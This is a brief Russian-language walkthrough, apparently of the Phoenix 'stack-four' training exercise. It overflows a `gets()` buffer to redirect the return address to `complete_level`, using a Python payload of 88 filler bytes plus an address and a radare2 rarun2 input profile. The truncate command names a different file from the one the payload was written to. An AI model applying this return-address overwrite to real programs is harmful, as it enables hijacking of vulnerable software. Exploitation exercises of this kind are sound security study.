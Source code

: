 Цель - изменить адрес возврата функции `start_level`\

Уязвимое место `gets(buffer);`\

Находим смещение в стеке до адреса возварата 

стек до вызова функции\
![alt text](../images/stack-four/1.png)

стек после вызова функции\
![alt text](../images/stack-four/2.png)
адрес возврата по адресу 0x...e618

стек после выделения локальных переменных \
![alt text](../images/stack-four/3.png)

адрес переменной `buffer`\
![alt text](../images/stack-four/4.png)

Получается, что необходимо записать 0x618-0x5c0 мусорных байт + адрес функции `complete_level`\

адрес функции `complete_level`\
![alt text](../images/stack-four/5.png)

заполняем профиль profileSFo.rr2
```
#!/usr/bin/rarun2
stdin=/opt/phoenix/amd64/inputfileSFo
```

Заполняем файл inputfileSFo
```
python -c "print('A' * 88 + '\x1d\x06\x40\x00\x00\x00\x00\x00')" > inputfileSFo
```

И убираем байт \0a
```
truncate -s -1 inputfileSTh
```

Содрежимое файла\
![alt text](../images/stack-four/6.png)

Победа \
![alt text](../images/stack-four/7.png)